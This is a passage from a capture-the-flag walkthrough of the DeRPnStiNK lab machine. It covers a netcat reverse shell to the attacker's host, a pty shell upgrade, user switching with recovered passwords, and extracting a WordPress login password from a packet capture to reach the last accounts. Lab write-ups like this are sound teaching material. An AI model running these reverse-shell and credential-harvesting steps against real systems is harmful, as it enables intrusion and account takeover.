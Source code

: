 `/bin/sh 0</tmp/backpipe | nc 192.168.159.128 4444 1>/tmp/backpipe`. Well,

> not a tty

No problem! Throwing that in:
```
python -c 'import pty; pty.spawn("/bin/sh")'
$ tty
tty
/dev/pts/19
```

Finally! Now, let's `su`:
```
$ su stinky
su stinky
Password: wedgie57

stinky@DeRPnStiNK:/var/www/html/weblog/wp-content/uploads/slideshow-gallery$ id
<html/weblog/wp-content/uploads/slideshow-gallery$ id                        
uid=1001(stinky) gid=1001(stinky) groups=1001(stinky)
```
We are user `stinky` now. Crawling his home folder we got some files:

* `~/Desktop/flag.txt`: our 3rd flag! (`flag3(07f62b021771d3cf67e2e1faf18769cc5e5c119ad7d4d1847a11e11d6d5a7ecb)`)
* `~/Documents/derpissues.pcap`: a packet capture file, we will focus on that later
* `ftp/files/network-logs/derpissues.txt`: a chat log
* `~/ftp/files/ssh/ssh/ssh/ssh/ssh/ssh/ssh/key.txt`: a private key, might be for SSH

## Flag 4

Last flag to obtain. Firstly: with the obtained `key.txt` file we are able to login via SSH as stinky, it's really the private key for the account. So we don't need to jump around spawned shells anymore.

Regarding the chat log we see that `mrderp` deleted his account and `stinky` created it again with a new password. `mrderp` captured the network transmission, that's file `derpissues.pcap`.
Let's open it in **Wireshark**.  
We see a normal capture of the whole traffic which happened for the recorded time. What we might want to see is the event when the account for `mrderp` has been created or when he logged in. There we might see the used password. Good that the session was not encrypted with TLS. When a user logs in, Wordpress uses HTTP method POST, so simply filter for POST methods: `http.request.method == POST`. There we see `/weblog/wp-login.php` as target, the file where Wordpress handles the login request.

![](https://i.imgur.com/sOSsQup.png)

Bingo! The used password was `derpderpderpderpderpderpderp`, so why don't try also `su` here?
```
stinky@DeRPnStiNK:~/ftp/files/network-logs$ su mrderp
Password:
mrderp@DeRPnStiNK:/home/stinky/ftp/files/network-logs$ id
uid=1000(mrderp) gid=1000(mrderp) groups=1000(mrderp)
```

